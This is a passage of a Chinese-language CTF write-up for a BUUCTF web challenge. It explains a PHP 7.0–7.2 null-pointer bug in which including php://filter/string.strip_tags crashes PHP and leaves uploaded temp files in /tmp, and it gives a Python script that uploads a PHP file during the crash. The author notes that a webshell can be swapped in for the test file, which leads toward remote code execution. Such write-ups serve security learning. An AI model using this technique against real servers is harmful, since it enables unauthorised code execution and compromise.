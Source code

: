 访问它能够返回扫描`/tmp`目录的结果



这里补充知识点:![image-20221030210955257](/images/buuctf-web4/image-20221030210955257.png)

这里的PHP版本为7.033, 有一个bug是:

>使用`php://filter/string.strip_tags`导致`php`崩溃清空堆栈重启，如果在同时上传了一个文件，**那么这个`tmp file`就会一直留在`tmp`目录**，再进行文件名爆破就可以getshell。这个崩溃原因是存在一处空指针引用。
>
>可用版本:
>
>```
>• php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复
>• php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复
>• php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复
>```

那么利用这里漏洞,需要在通过文件包含使用`php://filter/string.strip_tags`的同时, 上传一个文件,这个文件将会被保存在`/tmp`目录下. 然后通过访问`dir.php`获得上传文件的文件名就可以了

可以通过脚本来实现传参+上传文件

```python
import requests
from io import BytesIO

url = "http://faf05418-21ed-4937-a2e0-0ba79a558d01.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"

phpfile = "<?php phpinfo();?>"  #这里是测试,换成一句话木马也可
filedata = {
    "file": phpfile
}

bak = requests.post(url=url, files=filedata)
print(bak.text)
```

运行后,访问`dir.php`发现文件已经被上传了:

<img src="/images/buuctf-web4/image-20221030212423603.png" alt="image-20221030212423603" style="zoom:67%;" />
